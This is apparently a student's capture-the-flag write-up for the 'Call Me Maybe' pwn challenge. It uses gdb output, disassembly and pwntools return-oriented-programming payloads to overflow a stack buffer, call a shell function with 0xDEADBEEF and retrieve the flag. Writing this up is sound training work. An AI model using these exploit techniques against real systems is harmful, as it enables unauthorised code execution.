


# Call Me Maybe

### Description





## Solution

### Basic Analysis

I analysed the binary using some commands. The output of which is in `FileAnalysis.txt`

Since we are told it is Return Oriented Programming, maybe ROPgadgets would help?

Observations
1. The shell function is at `0x00000000004006ea`
2. The program has the NX bit set (Cannot execute from the stack, so no shellcode)

### Dynamic Analysis

### Running normally

I set a breakpoint before the input, ran the binary in gdb (and input in 64 characters of `A`), and checked the initial values of the stack and registers.
After the 64 `A`s, we start writing from memory location `0x7fffffffe4a0`, so that we can control the stack.

```
(gdb) break *0x00000000004007e0
Breakpoint 1 at 0x4007e0
(gdb) run
Starting program: /Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact =>
Breakpoint 1, 0x00000000004007e0 in main ()
(gdb) ni
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x00000000004007e5 in main ()
(gdb) info reg
rax            0x1                 1
rbx            0x400810            4196368
rcx            0x0                 0
rdx            0x0                 0
rsi            0xa                 10
rdi            0x7fffffffdf20      140737488346912
rbp            0x7fffffffe4a0      0x7fffffffe4a0
rsp            0x7fffffffe460      0x7fffffffe460
r8             0x0                 0
r9             0xffffffffffffff88  -120
r10            0x7ffff7f4b3c0      140737353397184
r11            0x246               582
r12            0x4005c0            4195776
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x4007e5            0x4007e5 <main+191>
eflags         0x202               [ IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) print $rbp-$rsp
$1 = 64
(gdb) x/64wx $rbp
0x7fffffffe4a0:	0x00000000	0x00000000	0xf7dfeb25	0x00007fff
0x7fffffffe4b0:	0xffffe598	0x00007fff	0xf7fca000	0x00000001
0x7fffffffe4c0:	0x00400726	0x00000000	0xffffe859	0x00007fff
0x7fffffffe4d0:	0x00400810	0x00000000	0x1c62f7a2	0x3779657a
0x7fffffffe4e0:	0x004005c0	0x00000000	0x00000000	0x00000000
0x7fffffffe4f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe500:	0xd502f7a2	0xc8869a85	0xc9d6f7a2	0xc8868ac5
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe530:	0xffffe598	0x00007fff	0xffffe5a8	0x00007fff
0x7fffffffe540:	0xf7ffe1e0	0x00007fff	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x004005c0	0x00000000
0x7fffffffe560:	0xffffe590	0x00007fff	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x00000000	0x004005ea	0x00000000
0x7fffffffe580:	0xffffe588	0x00007fff	0x0000001c	0x00000000
0x7fffffffe590:	0x00000001	0x00000000	0xffffe870	0x00007fff
(gdb) x/64wx $rsp
0x7fffffffe460:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe470:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe480:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe490:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe4a0:	0x00000000	0x00000000	0xf7dfeb25	0x00007fff
0x7fffffffe4b0:	0xffffe598	0x00007fff	0xf7fca000	0x00000001
0x7fffffffe4c0:	0x00400726	0x00000000	0xffffe859	0x00007fff
0x7fffffffe4d0:	0x00400810	0x00000000	0x1c62f7a2	0x3779657a
0x7fffffffe4e0:	0x004005c0	0x00000000	0x00000000	0x00000000
0x7fffffffe4f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe500:	0xd502f7a2	0xc8869a85	0xc9d6f7a2	0xc8868ac5
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000001	0x00000000
0x7fffffffe530:	0xffffe598	0x00007fff	0xffffe5a8	0x00007fff
0x7fffffffe540:	0xf7ffe1e0	0x00007fff	0x00000000	0x00000000
0x7fffffffe550:	0x00000000	0x00000000	0x004005c0	0x00000000
```

I also found the location of `system` and `"/bin/sh"` in case we need to use it
```
(gdb) print system
$1 = {<text variable, no debug info>} 0x7ffff7e21120 <system>
(gdb) find 0x7ffff7e21120, +999999999999, "/bin/sh"
0x7ffff7f63966
warning: Unable to access 16000 bytes of target memory at 0x7ffff7fa5fee, halting search.
1 pattern found.
```

### Figuring out when it crashes

I bruteforced (by that I mean manually input) the amount of padding before the program crashes. which is (64+8) characters
```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /usr/lib/libc.so.6
(gdb)
```
You know from 64+9 characters onwards the input overflows into the return address because you see `41` in the instruction pointer storing the value `0x00007ffff7df0041`.

### Figuring out what values you can control

I tried figuring out which parts of the payload correspond to which registers. Using the Buffer Overflow pattern generator found [here](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), I figured out the `rbp` is right after the `contact` variable (at offset 64).

```
gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3A
Calling Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3A...

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /usr/lib/libc.so.6
(gdb) info reg
rax            0x0                 0
rbx            0x400810            4196368
rcx            0x0                 0
rdx            0x0                 0
rsi            0x7fffffffc340      140737488339776
rdi            0x7ffff7f9b4d0      140737353725136
rbp            0x3363413263413163  0x3363413263413163
rsp            0x7fffffffe4b0      0x7fffffffe4b0
r8             0x7ffff7f5d040      140737353470016
r9             0x7ffff7f5d0c0      140737353470144
r10            0x7ffff7f5cfc0      140737353469888
r11            0x246               582
r12            0x4005c0            4195776
r13            0x0                 0
r14            0x0                 0
r15            0x0                 0
rip            0x7ffff7df0041      0x7ffff7df0041
eflags         0x10202             [ IF RF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0

```

### Approach

The aim is to call the function `shell` while passing in `0xDEADBEEF` as a parameter.

### Calling the `shell` function

Since we overflow to the instruction pointer, we can just insert the address of the `shell function` after the padding. However, the source code shows that we need to pass in a parameter into the function first.

```
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@...
Unauthorized.
```

### How to pass in the parameter

Looking at the disassembly of the `shell` function, the value of `0xdeadbeef` should be stored in `rbp-0x14`.
```
00000000004006ea <shell>:
  4006ea:	55                   	push   rbp
  4006eb:	48 89 e5             	mov    rbp,rsp
  4006ee:	48 83 ec 20          	sub    rsp,0x20
  4006f2:	89 7d ec             	mov    DWORD PTR [rbp-0x14],edi
  4006f5:	48 8b 05 aa 01 00 00 	mov    rax,QWORD PTR [rip+0x1aa]        # 4008a6 <_IO_stdin_used+0x16>
  4006fc:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
  400700:	81 7d ec ef be ad de 	cmp    DWORD PTR [rbp-0x14],0xdeadbeef
  400707:	75 0e                	jne    400717 <shell+0x2d>
  400709:	48 8d 45 f8          	lea    rax,[rbp-0x8]
  40070d:	48 89 c7             	mov    rdi,rax
  400710:	e8 6b fe ff ff       	call   400580 <system@plt>
  400715:	eb 0c                	jmp    400723 <shell+0x39>
  400717:	48 8d 3d 7a 01 00 00 	lea    rdi,[rip+0x17a]        # 400898 <_IO_stdin_used+0x8>
  40071e:	e8 4d fe ff ff       	call   400570 <puts@plt>
  400723:	90                   	nop
  400724:	c9                   	leave
  400725:	c3                   	ret
```

I tried running the program again, but manually setting this memory location. It looks like its the correct one, since it calls a new system process
```
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�...

Breakpoint 1, 0x0000000000400700 in shell ()
(gdb) ni
0x0000000000400707 in shell ()
(gdb) ni
0x0000000000400717 in shell ()
(gdb) ni
0x000000000040071e in shell ()
(gdb) ni
Unauthorized.
0x0000000000400723 in shell ()
(gdb) ni
0x0000000000400724 in shell ()
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /run/media/hacker/Windows/Users/zunmu/Documents/Stuff/Github/Solutions/Cyber Security/Capture the Flag Competitions/2021/Cyberthon 2021/Self-Directed Online Training/Pwn/Call Me Maybe/Given/callmemaybe < ../inputfile.txt
_______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                        Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�...

Breakpoint 1, 0x0000000000400700 in shell ()
(gdb) print $rbp-$rsp
$2 = 32
(gdb) x/8wx $rsp
0x7fffffffe488:	0x41414141	0x41414141	0x41414141	0xf7f9b4d0
0x7fffffffe498:	0x41414141	0x41414141	0x6e69622f	0x0068732f
(gdb) x/8wx $rbp
0x7fffffffe4a8:	0xdeadbeef	0x00000000	0x41414141	0x41414141
0x7fffffffe4b8:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) x/wx $rbp-0x14
0x7fffffffe494:	0xf7f9b4d0
(gdb) set {int}($rbp-0x14)
warning: Expression is not an assignment (and might have no effect)
(gdb) set {int}($rbp-0x14)=0xdeadbeef
(gdb) x/wx $rbp-0x14
0x7fffffffe494:	0xdeadbeef
(gdb) continue
Continuing.
[Detaching after vfork from child process 21285]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400725 in shell ()
```

It doesn;t look like we can just overflow to the needed location on the stack, since the location is overwritten with `0xf7f9b4d0` for some reason. Looking at the disassembly again, this value is actually the register `rdi/edi`. Checking [here](https://web.stanford.edu/class/cs107/guide/x86-64.html), this is the register where the argument is located.

### Research and My basic understanding of ROP

There are many guides on return oriented progamming out there. A very good source of understanding the concept is through the Liveoverflow Binary Exploitation video series. More specifically [this](https://www.youtube.com/watch?v=8Dcj19KGKWM) and [this](https://www.youtube.com/watch?v=zaQVNM3or7k&t=88s).

The basic concept is that once you buffer overflow to the Instruction pointer, you put the addresses of the functions, or ROP Gadgets(which is basically like useful sections of assembly code in binary). The computer then runs the corresponding code
* The important thing is that all these functions end in a `ret` or a `jmp` or something similar, so you can chain the gadgets together to actually write some meaningful code

The Payload should consist of something like this
```
Padding to reach the EIP
Instruction pointer to gadget 1 (for example it is a nop instruction)
Instruction pointer to gadget 2
...
```

Sometimes some gadgets may allow you to inject some value into the register. For example, the `pop rdi; ret;` gadget takes a value from the stack and stores it in rdi i think. So you will put it in the payload like This
```
instruction pointer to gadget (pop rdi; ret)
0xDEADBEEF
instruction pointer to next gadget
```

You can get the instruction pointer to the functions/ gadgets by
1. Disassemble the binary using objdump, and then find the address of the function OR
2. Running [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

### Using ROP to pass in the parameter

Looking at the ROP gadgets, there may be an interesting gadget `0x0000000000400873`. On reading some writeups like [this](https://gist.github.com/winstonho90/8309a63c1b5bc71244dfefd4a2dda734), I realised that we can use this gadget to insert a value to rdi.

```
0x0000000000400619 : je 0x400628 ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x000000000040065b : je 0x400668 ; pop rbp ; mov edi, 0x601050 ; jmp rax
0x000000000040061c : mov edi, 0x601050 ; jmp rax
0x000000000040061b : pop rbp ; mov edi, 0x601050 ; jmp rax
0x0000000000400873 : pop rdi ; ret
```

The payload is something like this (using python pwntools)
```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x0000000000400873) #pop rdi; ret
ropchain += p64(0xDEADBEEF) # the value for the above command to load in rdi. The computer then moves to the instruction below
ropchain += p64(0x00000000004006ea) # shell()
payload = contact + padding + ropchain
```

Running the code with this payload in `local_solve.py` gets me a shell

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Starting local process 'Given/callmemaybe'
[+] Starting local process 'Given/callmemaybe': pid 30180
96
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAs\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@...
hacker
cat: /home/callmemaybe/flag.txt: No such file or directory
```

## Running on server

Running this on the remote server does not get me a shell though so maybe there is something wrong? I am not even sure if there is a segmentation fault since the error messages are not sent over netcat (I tried).

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.215
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
96
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAs\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@...
[*] Got EOF while reading in interactive
```

Maybe there is something wrong with my payload?

So far if I only call the shell function, and the `ret` ROP gadget at `0x000000000040055e` the code still functions like how it does locally on my computer.

Payload Used:
```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x00000000004006ea) # shell()
ropchain += p64(0x00000000004006ea) # shell()

payload = contact + padding + ropchain
```

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.182
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
88
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^\x05@\x00\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^@...
Unauthorized.
Unauthorized.
[*] Got EOF while reading in interactive
```

After just tinkering with the payload for a while I got the Flag. The final code is in `solve.py`. My theory is that some padding is needed in the rop chain so that the ROPgadgets actually work properly on the stack (for example, the values aren't overriden or something idk I'm not an expert)

Payload :

```
contact = b"A"*64 # Padding for the variable contact
padding = b"A"*8 # Bruteforce the requred extra padding before it doesn't crash

## ROP Gadgets
ropchain = b""
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x000000000040055e) # Does nothing except ret lmao
ropchain += p64(0x00000000004006ea) # shell()
ropchain += p64(0x0000000000400873) #pop rdi; ret
ropchain += p64(0xDEADBEEF)
ropchain += p64(0x00000000004006ea) # shell()

payload = contact + padding + ropchain
```

Output:

```
terminals database is inaccessible
Warning: _curses.error: setupterm: could not find terminfo database

Terminal features will not be available.  Consider setting TERM variable to your current terminal name (or xterm).
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201
[x] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Trying 134.209.101.215
[+] Opening connection to 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg on port 30201: Done
120
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^\x05@\x00\x00\x00\x00\x00^\x05@\x00\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00s\x08@\x00\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00\xea\x06@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
 _______  _     _  __    _  _______  __   __  _______  _______  ______   
|       || | _ | ||  |  | ||       ||  | |  ||       ||       ||    _ |  
|    _  || || || ||   |_| ||_     _||  | |  ||_     _||   _   ||   | ||  
|   |_| ||       ||       |  |   |  |  |_|  |  |   |  |  | |  ||   |_||_
|    ___||       ||  _    |  |   |  |       |  |   |  |  |_|  ||    __  |
|   |    |   _   || | |   |  |   |  |       |  |   |  |       ||   |  | |
|___|    |__| |__||_|  |__|  |___|  |_______|  |___|  |_______||___|  |_|

=========================================================================
                         Stage 3: Call Me Maybe?
=========================================================================
Enter Contact => Calling AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^@...
Unauthorized.
callmemaybe
CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}
```


## Flag
`CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}`
